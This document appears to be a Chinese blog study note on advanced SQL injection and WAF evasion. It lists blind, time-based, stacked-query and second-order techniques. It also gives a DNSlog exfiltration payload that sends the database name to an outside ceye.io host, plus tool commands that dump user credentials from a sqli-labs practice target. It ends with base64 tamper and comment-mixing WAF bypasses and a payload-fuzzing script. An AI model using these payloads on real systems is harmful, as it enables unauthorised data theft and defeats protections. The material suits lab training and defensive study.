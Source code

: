 ```yaml
---
layout: post
title: sqli进阶
categories: [web,sql]
---
```


# 较为常规的注入 
## 函数  
```sql
    limit(0,1) #从第1个开始显示1条数据  
    if(条件,5,0) #条件成立，返回5，否则返回0    
    mid(a,b,c) #从位置b开始，截取a字符串第c位，从1开始  
    substr(a,b,c) #从位置b开始，截取字符串a的c长度  
    left(a,b) #从左侧截取a的前b位  
    length(database())=8 #判断database的长度  
    ord(x)=85或ascii(x)=85  
```
***
## 布尔盲注
>用left(database(),x)判断数据库长度
***
## 延时盲注
![9](/img/sql9.png)
![10](/img/sql10.png)
>如果有id=1 and sleep(if(database()='a',b,1))则sleep(1)  
***
## 堆叠查询
```sql
    mysql_query():一条查询  
    mysqli_multi_query():多条查询
```
>使用handler 命令查看表中的「数据」，需要注意的是，表名如果是数字，则需要使用反引号包裹起来，payload如下：  
>?id=0';handler `tablename` open;handler `tablename` read first; -- a  
***
## 宽字节注入
>仅限于中文  
![6](/img/sql6.png)
## sql绕过
## sql写shell

# 注入拓展

## 加解密注入
cookie等要先加密再注入  
***
## 二次注入
#### 一般只能在白盒进行
>插入恶意数据  
>引用恶意数据  
***
## dnslog注入
>要有读写权限  
解决盲注不能回显数据，效率低的问题  
### 手动注入
[DNS在线服务器](http://ceye.io/)
```sql
//查询当前数据库  
id=1'and load_file(concat("\\\\",database(),".913n8.ceye.io\\xxx.txt"))--+  
```
### 工具注入
利用DnslogSqlinj工具进入DNSlog注入  
需要使用python27环境  
```
获取数据库名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" --dbs
获取数据库security下的表名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security --tables
获取users表的列名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security -T users --columns
获取uses表中的数据:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump

```
***
## 排序注入 
***
# waf绕过
## 数据
大小写  
### 加密解密
```php
//自写脚本,假如参数值经过base64加密
<?php
    $url="http://localhost/test.php?a=";
    $urls=$url.base64_encode($_GET['sqli']);
    $result=file_get_contents($urls);
    echo $result;
?>   
```  

### 编码解码  
### 等价函数  
### 特殊符号  
### 反序列化  

### 注释符混用  
```
union/**/select
%23a%0A   #号接上换行符  
/*!union select*/
id=1/**&id=-1 union select 1,2,3#*/ 此时waf不会识别/***/里的内容，但是会参数污染识别到最后一个参数  
```  
### http参数污染
>PHP/Apache 获取参数，若是相同的参数，则获取最后一个参数的值  

### Fuzz模糊测试
用字典写脚本访问
```py
import requests
import time
url="xxxx"
for sqli in open('payload.txt'):
    url=url+sqli
    result=requests.get(url).text
    if(result.find('xx')==-1):
        print("注入成功")
    time.sleep(1)
```